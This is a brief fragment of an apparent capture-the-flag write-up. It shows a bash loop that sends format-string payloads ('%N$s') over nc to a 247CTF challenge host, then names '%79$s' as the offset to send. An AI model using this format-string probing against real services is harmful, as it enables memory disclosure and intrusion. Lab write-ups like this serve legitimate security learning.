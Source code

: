 
```bash
for i in range $(seq 0 100); do echo "%$i\$s" | nc b7dca240cf1fbf61.247ctf.com 50478; done
```

nc and send

%79$s
